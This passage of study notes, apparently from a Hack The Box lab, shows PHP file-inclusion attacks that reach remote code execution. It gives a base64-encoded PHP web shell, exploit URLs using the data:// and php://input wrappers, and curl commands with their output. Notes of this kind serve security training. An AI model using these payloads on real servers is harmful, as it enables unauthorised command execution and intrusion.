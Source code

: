 </aside>

<aside>
💡 With `allow_url_include` enabled, we can proceed with our `data` wrapper attack. As mentioned earlier, the `data` wrapper can be used to include external data, including PHP code. We can also pass it `base64` encoded strings with `text/plain;base64`, and it has the ability to decode them and execute the PHP code.

</aside>

```php
0xR3Y4D@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

**Exploitaion :**

```html
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

![Untitled](../../../../0xN1ghtM4r3-Notebook%203351968cf3f74ad68a09245768551fca/0xR3Y4D-Notebook%207651c00ee0914affa2b674b2d962ac9c/Server%20Side%20Attacks%20b1a016ea12d5480c9b34a987022407f6/File%20Inclusions%20273322b142ad4dd2806ca52bd28d7e9a/Study%20Notes%20e9a012804c054c9ea5aa1aa5ac36b644/Untitled%202.png)

OR 

```php
0xR3Y4D@htb[/htb]$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Input → RCE [`allow_url_include = On` required]

<aside>
💡 Similar to the `data` wrapper, the [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code. The difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work.

</aside>

**Exploit** :

```php
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
```
